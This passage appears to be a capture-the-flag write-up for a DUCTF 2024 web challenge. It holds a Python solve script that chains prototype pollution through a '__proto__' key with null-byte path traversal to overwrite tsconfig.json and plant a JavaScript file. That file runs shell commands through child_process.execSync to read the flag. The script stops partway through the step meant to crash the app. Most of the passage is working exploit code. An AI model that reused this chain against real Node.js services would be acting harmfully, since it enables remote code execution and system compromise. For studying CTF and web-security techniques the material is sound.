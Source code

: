 2. Make a javascript file and yeet into `/examples` for RCE (exec getflag and whatever)

3. Crash the app (we did this by trying to write to `proc/self/mem`) to force a restart and have our overwritten `tsconfig.json` apply to the app

```py
import requests

REMOTE = True

if REMOTE:
    host = "https://web-prisoner-processor-c8d94eb745951d8e.2024.ductf.dev"
else:
    host = "http://localhost:1337"

# 0. get signature
sig = requests.get(host + "/examples").json()["examples"][0]["signature"]

# 1. overwrite tsconfig.json
requests.post(host+"/convert-to-yaml", json={
    "data": {
        "//": "\n{\"compilerOptions\":{\"paths\":{\"yaml\":[\"./examples/julia.js\"]}}}",
        "signed.name":"jeff",
        "signed.animalType":"emu",
        "signed.age":12,
        "signed.crime":"assault",
        "signed.description":"clotheslined someone with their neck",
        "signed.start":"2024-03-02T10:45:01Z",
        "signed.release":"2054-03-02T10:45:01Z",
        # Object.entries ignores this but for ... in won't
        "signed.__proto__": {
            "outputPrefix":"../../../../proc/self/cwd/tsconfig.json\u0000" #nullbyte to make our own files
        }
    },
    "signature": sig
})

# 2. write rce to examples/julia.js
requests.post(host+"/convert-to-yaml", json={
    "data": {
        "//": """
var dog = 'sed -i "s/signed/$(/bin/getflag)/g" /app/examples/jeff.json';
require("child_process").execSync(dog);

exports.stringify = function(dawg) {return dawg;}
/*""",
        "signed.name":"jeff",
        "signed.animalType":"emu",
        "signed.age":12,
        "signed.crime":"assault",
        "signed.description":"clotheslined someone with their neck",
        "signed.start":"2024-03-02T10:45:01Z",
        "signed.release":"2054-03-02T10:45:01Z",
        "signed.__proto__": {
            "outputPrefix":"../../../../proc/self/cwd/examples/julia.js\u0000 */ //"
        }
    },
    "signature": sig
})

# 3. crash
try:
    requests.post(host+"/convert-to-yaml", json={
        "data": {
```